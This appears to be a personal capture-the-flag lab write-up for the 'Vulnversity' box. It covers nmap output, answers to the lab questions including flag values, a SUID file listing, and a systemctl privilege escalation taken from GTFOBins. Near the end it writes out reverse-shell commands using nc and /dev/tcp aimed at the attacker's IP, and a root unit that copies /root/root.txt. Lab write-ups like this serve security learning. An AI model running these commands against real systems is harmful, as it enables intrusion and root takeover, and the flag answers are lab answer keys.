 06/16/2025

Vulnversity
Note: Box seemed very unstable and constantly dropping packets. Ping reponse is less than 70% even after waiting 10 mins. Grrr

''TASK 1

Fire up the box and wait a bit for pings to return
Create working folder and nmap folder

Setup IP variable for simplicity
Export IP=<ip address>
10.10.101.248

''TASK 2

Q. Scan the box; 
#Nmap scan
#nmap -sC -sV -oN nmap/initial $IP

Results

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-18 20:43 EDT                                    
Nmap scan report for 10.10.82.241                                                                  
Host is up (0.15s latency).                                                                        
Not shown: 994 closed tcp ports (reset)                                                            
PORT     STATE SERVICE     VERSION                                                                 
21/tcp   open  ftp         vsftpd 3.0.5                                                            
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)           
| ssh-hostkey: 
|   3072 74:13:9e:22:29:6c:fb:c3:5c:da:c7:80:94:4d:b4:63 (RSA)
|   256 ba:21:a7:b5:4b:38:13:88:27:1f:f1:01:de:48:c0:58 (ECDSA)
|_  256 30:d4:46:5e:ec:78:6d:d6:95:d1:65:0a:6d:b5:23:73 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
3128/tcp open  http-proxy  Squid http proxy 4.10
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.10
3333/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Vuln University
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2025-06-19T00:44:02
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: IP-10-10-82-241, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.62 seconds

Q. How many ports are open?
A> 6

Q. What version of the squid proxy is running on the machine?
A.  4.10

Q. How many ports will Nmap scan if the flag -p-400 was used?
A. 400

Q. What is the most likely operating system this machine is running?
A. Ubuntu

Q. What port is the web server running on?
A. 3333

Q. What is the flag for enabling verbose mode using Nmap?
A. -v

''TASK 3

Q. What is the directory that has an upload form page?
A. /internal/

''TASK 4

Q. What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.
A. .php

Q. What extension is allowed after running the above exercise?
A. phtml

Q. What is the name of the user who manages the webserver?
A. bill

Q. What is the user flag?
A. 8bd7992fbe8a6ad22a63361004cfcedb

''TASK 5

Q. On the system, search for all SUID files. Which file stands out?
A. /bin/systemctl

find / -type f -perm -04000 -ls 2>/dev/null
   396628     44 -rwsr-xr-x   1 root     root        41552 Feb  6  2024 /usr/bin/newuidmap
   395578     84 -rwsr-xr-x   1 root     root        85064 Feb  6  2024 /usr/bin/chfn
   396626     48 -rwsr-xr-x   1 root     root        45648 Feb  6  2024 /usr/bin/newgidmap
   396998    164 -rwsr-xr-x   1 root     root       166056 Apr  4  2023 /usr/bin/sudo
   400521     52 -rwsr-xr-x   1 root     root        53040 Feb  6  2024 /usr/bin/chsh
   400524     68 -rwsr-xr-x   1 root     root        68208 Feb  6  2024 /usr/bin/passwd
   419923     32 -rwsr-xr-x   1 root     root        31032 Feb 21  2022 /usr/bin/pkexec
   397803     44 -rwsr-xr-x   1 root     root        44784 Feb  6  2024 /usr/bin/newgrp
   400523     88 -rwsr-xr-x   1 root     root        88464 Feb  6  2024 /usr/bin/gpasswd
   401943     56 -rwsr-sr-x   1 daemon   daemon      55560 Nov 12  2018 /usr/bin/at
   397519    156 -rwsr-xr-x   1 root     root       159304 Jan 15 15:02 /usr/lib/snapd/snap-confine
   419925     24 -rwsr-xr-x   1 root     root        22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
   397315    468 -rwsr-xr-x   1 root     root       477672 Apr 11 08:16 /usr/lib/openssh/ssh-keysign
   401528     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
   396651     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   404935    848 -rwsr-xr-x   1 root     root         866448 Feb  3  2022 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   133104     68 -rwsr-xr-x   1 root     root          67816 Apr  9  2024 /bin/su
   133153     56 -rwsr-xr-x   1 root     root          55528 Apr  9  2024 /bin/mount
   133154     40 -rwsr-xr-x   1 root     root          39144 Apr  9  2024 /bin/umount
   131094    976 -rwsr-xr-x   1 root     root         996584 Jun 17  2024 /bin/systemctl
   131086     40 -rwsr-xr-x   1 root     root          39144 Mar  7  2020 /bin/fusermount
      210    177 -rwsr-xr-x   1 root     root         180753 Apr  5 15:10 /snap/snapd/24505/usr/lib/snapd/snap-confine
      875     84 -rwsr-xr-x   1 root     root          85064 Feb  6  2024 /snap/core20/2582/usr/bin/chfn
      881     52 -rwsr-xr-x   1 root     root          53040 Feb  6  2024 /snap/core20/2582/usr/bin/chsh
      951     87 -rwsr-xr-x   1 root     root          88464 Feb  6  2024 /snap/core20/2582/usr/bin/gpasswd
     1035     55 -rwsr-xr-x   1 root     root          55528 Apr  9  2024 /snap/core20/2582/usr/bin/mount
     1044     44 -rwsr-xr-x   1 root     root          44784 Feb  6  2024 /snap/core20/2582/usr/bin/newgrp
     1059     67 -rwsr-xr-x   1 root     root          68208 Feb  6  2024 /snap/core20/2582/usr/bin/passwd
     1169     67 -rwsr-xr-x   1 root     root          67816 Apr  9  2024 /snap/core20/2582/usr/bin/su
     1170    163 -rwsr-xr-x   1 root     root         166056 Apr  4  2023 /snap/core20/2582/usr/bin/sudo
     1228     39 -rwsr-xr-x   1 root     root          39144 Apr  9  2024 /snap/core20/2582/usr/bin/umount
     1317     51 -rwsr-xr--   1 root     systemd-network    51344 Oct 25  2022 /snap/core20/2582/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1691    467 -rwsr-xr-x   1 root     root              477672 Apr 11 08:16 /snap/core20/2582/usr/lib/openssh/ssh-keysign
   393653     48 -rwsr-xr-x   1 root     root               48200 Apr  2 00:10 /sbin/mount.cifs

Q. What is the root flag value?
A. a58ff8579f0a9270368d33a9966c7fd5

https://gtfobins.github.io/gtfobins/systemctl/

Move to a writeable directory - I used /tmp

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF

# We need to change the ExecStart command so I can create reverse shell as root. This is where my problems started...

Googling around I found 

ExecStart=/bin/sh -c "nc -e /bin/bash 10.2.57.121 9999"
# that didn't work. no -e option
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.2.57.121/5555 0>&1'
# this didn't work either. "Bad fd number"
More googling!
Finally I gave up on reverse shell and just decided to cat out the file and redirect it to a new file in temp I could read

ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/root.txt"

That worked fine. 

REMINDER: I'll need to come back to this once I understand why nc -e isn't available and why bash has trouble with >&
